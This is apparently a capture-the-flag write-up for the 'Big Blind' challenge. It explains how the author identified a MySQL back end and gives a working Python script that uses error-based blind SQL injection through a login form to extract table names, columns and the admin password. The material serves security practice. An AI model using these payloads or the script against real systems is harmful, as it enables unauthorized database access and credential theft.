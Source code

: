 -From the title "Big Blind" I assumed this was some kind of Blind Injection, probably SQL, but I didn't want to assume anything.
-Sending a single ' returned a 500 internal server error, backing up my theory that it was probably blind SQL injection.

-After trying a few different things, using the sleep function didn't return an error, but didn't seem to do anything.
I tried other waiting commands like WAITFOR DELAY '0:0:10', dbms_pipe.receive_message(('a'),10) and pg_sleep(10), however, all of these returned errors. 
This meant that it was probably either SQLlite or MySQL.

-I then tested GLOB, a function that is in SQLlite but not MySQL, this returned an error, suggesting that it was MySQL

-Because the database was MySQL, I knew that SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM 
information_schema.tables),'a') would trigger an error if true, and put it into a python script to attempt to expose 
the database's contents.

-I used the script to determine the tablename (users) from information_schema.tables, then determined the column names 
(user, pass) from information_schema.columns, and then finally enumerated the username and password (admin, the flag)

-The script is here, I modified it to make it run for each different function, and in this form it is configured for 
enumerating the flag, which was the last time I used it(sorry if its a bit messy):



import requests
url = "https://big-blind.hsc.tf/"
payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+TABLE_NAME+FROM+information_schema.tables+LIMIT+1),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
headers = {
  'Host': 'big-blind.hsc.tf',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Content-Type': 'application/x-www-form-urlencoded',
  'Content-Length': '166',
  'Origin': 'https://big-blind.hsc.tf',
  'Connection': 'close',
  'Referer': 'https://big-blind.hsc.tf/',
  'Upgrade-Insecure-Requests': '1'
}


lalph = list(map(chr, range(ord('a'), ord('z')+1)))
Ualph = list(map(chr, range(ord('A'), ord('Z')+1)))
nums = list(range(0,10))
blank = [""]
additionals = ["_","$","{","}"]
totalPos = blank+additionals+lalph+Ualph+nums
fullAlph = []
for val in totalPos:
    fullAlph.append(str(val))
end = False
thing = 0
dbNames= []
password = "flag"
maxi = 50
while thing < maxi:
    if(end==True):
        end=False
        print("Adding: "+password)
        dbNames+=[password]
        password=""
        
        thing+=1
    for Char in totalPos:
        Char = str(Char)
        reqH = payload
        payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+pass+FROM+users+WHERE+user='admin'+LIMIT+1+OFFSET+{}),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
        reqH = reqH.format(thing,len(password)+1,password+Char)
        #print(reqH)
        response = requests.request("POST", url, headers=headers, data=reqH)
        #print(response)
        if("<html lang" in str(response.content)):
            if(Char == ""):
                end=True
                break
            else:
                print(password+Char+"=True")
                password+=Char
                break
        else:
            print(password+Char+"=False")
       
    


print("Database Names: ")
for name in dbNames:
    print(str(name))